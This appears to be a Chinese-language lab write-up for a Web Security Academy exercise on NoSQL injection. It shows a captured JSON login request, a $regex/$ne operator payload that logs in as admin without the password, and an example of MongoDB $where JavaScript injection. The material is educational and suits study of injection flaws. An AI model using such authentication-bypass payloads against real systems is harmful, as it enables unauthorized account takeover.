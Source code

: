 抓个包看看

```bash
POST /login HTTP/1.1
Host: xxxxxxxxxxxxx.web-security-academy.net
Cookie: session=djMoS9NuJRKCDsBfzRpHwzdkyy9EqZEC
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://xxxxxxxxxxx7.web-security-academy.net/login
Content-Type: application/json
Content-Length: 39
Origin: https://xxxxxxxxxxx.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"username":"admin","password":"admin"}
```

可以看见最后面传了json格式的文件，我们看见题目要求登录admin的账户，所以就构造playload。

playload： `{"username":{"$regex":"admin.\*"}, "password":{"$ne":""}}`

![](assets/1706959875-df3ab4edbe30e35897332100a0b5e41a.png)

可以看见也是成功登录

这里也把M师傅的JavaScript注入的一些笔记写进来，因为算是同一个知识点了只不过师傅用的是where这个方法

example：

```php
db.users.find({ $where: "function(){return(this.username == $userData)}" })
```
